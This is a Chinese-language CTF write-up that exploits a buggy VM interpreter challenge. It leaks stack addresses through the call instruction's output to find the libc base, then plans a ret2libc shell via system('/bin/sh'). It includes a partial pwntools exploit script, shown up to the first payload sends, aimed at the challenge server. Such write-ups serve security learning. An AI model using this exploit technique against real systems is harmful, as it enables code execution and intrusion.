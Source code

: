 
现在的关键是如何泄露栈上的值，注意到虚拟机的特定指令执行完，会打印该指令下一条或者后两条，或者后三条指令，

虚拟机的指令指针始终指向下一条要执行的指令，再注意到只有 call 指令会打印后三条指令，即 12 个字节，并且 call 指令会跳到该指令下一个位置所指向的指令位置（如下一条是 5，则跳到第五条指令执行）

由于开始读入指令便有很大限制，故需要构造一种特殊读入方式来布局栈

1:iadd (就是占下格子，随便其他不影响执行的指令都行)          16: call      

1.写入 p8(1),会将 0x4 覆盖为 0x1，由于只写入了一个字节，下一条指令写在 code[1] 处

2.写入 p8(16)，由于这四个字节是零，也只用写一个字节覆盖低位 0x0 ，下一条指令写在 code[2] 处

3.写入 p8(6), 会将 0x1 覆盖为 0x6，写了一个字节，下一条指令写在 code[3] 处

4.写入 p8(0)*3 ,对栈上的值不会有影响，但下一条指令写在 code[6] 处（写到这里突然发现可以直接读一个完整的值，还不用构造读入方式。。。。。。。感觉自己好傻逼）

5.写入 p32(16) + p32(18) + p32(0)，因为原来栈中四个字节都有值，只能全部覆盖，此时下一条指令写在 code[18] 处

6.写入 p32(18) ,执行完这条指令虚拟机就会退出了，此时下一条指令写在 code[22] 处

7.直接写入 122*b'a'， 下一条指令写在返回地址处

8.写入 p8(0xbe) + p8(0xc6)，c 会随每次启动程序而改变，故要多试几次

9.接下来后面全部写 0 就行了

执行完成后可泄露栈中的地址，可计算 libc 基址，同时返回到了 main 函数，又会再次执行虚拟机，此时执行我们直接写入 p32(18)+130*

b'a' 直接跳到返回地址处写入，由于开始就写了 p32(18) ,虚拟机会直接停止执行并返回

接下来就是写入 libc 中的 gadget 地址到返回地址处，再写入'/bin/sh'地址和 system 地址就行了

当然这里栈恰好是对齐的，就不用再多返回一次啦。

以下是 exp：

```python

#! python3
from pwn import *
from struct import *
context.log_level = "debug"

libc = ELF('./libc-2.31')
off_system = libc.symbols['system'] - 0x22000
off_str = next(libc.search(b'/bin/sh')) - 0x22000
off_gadget = 0x15379d - 0x22000


#p = process('./bugged_interpreter')
#p = remote('172.17.0.2', 9999)
p = remote('pwn.archive.xdsec.chall.frankli.site',10076)
p.recvuntil(b'\n')

payload1 = p8(1)
payload2 = p8(16)
payload3 = p8(6)
payload4 = p8(0) +p8(0) + p8(0)
payload5 = p32(16) + p32(18) + p32(0)
payload6 = p32(18)
payload7 = 112 * b'a'
payload8 = p8(0xbe) + p8(0xc6)
payload9 = p64(0) + p64(0) + p64(0)
payload10 = 352*p8(0)


p.send(payload1)
sleep(0.3)
p.send(payload2)
sleep(0.3)
```